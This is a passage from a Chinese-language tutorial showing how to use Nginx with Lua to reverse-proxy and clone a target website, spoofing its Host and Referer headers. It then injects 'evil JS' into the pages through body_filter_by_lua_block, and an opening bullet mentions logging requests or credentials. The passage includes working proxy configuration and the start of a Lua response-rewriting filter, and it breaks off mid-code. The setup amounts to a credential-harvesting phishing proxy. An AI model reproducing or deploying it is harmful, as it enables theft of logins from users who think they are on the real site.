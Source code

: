  * • body_filter_by_lua_block 用于修改响应内容，注入JS

  * • log_by_lua_block 用于记录请求日志或凭证

#### Nginx 反向代理配置

Nginx反向代理配置起来非常简单。

    
    
    location /some/path/ {  
        proxy_pass http://www.example.com/link/;  
    }

`location`用于做URI匹配，当访问到`/some/path/`这个路径时，Nginx就代表客户端去访问`http://www.example.com/link/`，整个过程对客户端是完全透明的。

根据这个实例，可以直接写下第一部分，反向代理的配置了：

    
    
    location / {  
        proxy_pass http://www.example.com/link/;  
    }

访问根目录就等同于访问`http://www.example.com/link/`。

这里可能会产生一个问题，如果目标Web服务器对Host进行了判断，那么反向代理可能不会成功，因此需要将完美克隆的目标Host进行设置。

    
    
    worker_processes  1;  
      
    error_log  logs/error.log error;    # 日志级别  
      
    events {  
        worker_connections  1024;  
    }  
      
    http {  
        server {  
            listen    80;  
            server_name example-1.com;  
            location / {  
                proxy_pass http://www.example.com/link/;  
                proxt_set_header Host www.example.com;  
                proxt_set_header Referer http://www.example.com/link/;  
            }  
        }  
    }

至此，就能完美克隆目标网站了。

#### 注入模块化的Evil JS

使用`body_filter_by_lua_block`可以对网站内容进行修改，利用好这个功能，就能将JS文件引入到页面中。

    
    
    header_filter_by_lua_block { ngx.header.content_length = nil}  
                    body_filter_by_lua_block{  
                            local chunk, eof = ngx.arg[1], ngx.arg[2]  
                            local buffered = ngx.ctx.buffered  
                            if not buffered then  
                               buffered = {}  
                               ngx.ctx.buffered = buffered  
                            end  
                            if chunk ~= "" then  
                               buffered[#buffered + 1] = chunk  
                               ngx.arg[1] = nil  
                            end  
                            if eof then  
                               local whole = table.concat(buffered)  
                               ngx.ctx.buffered = nil  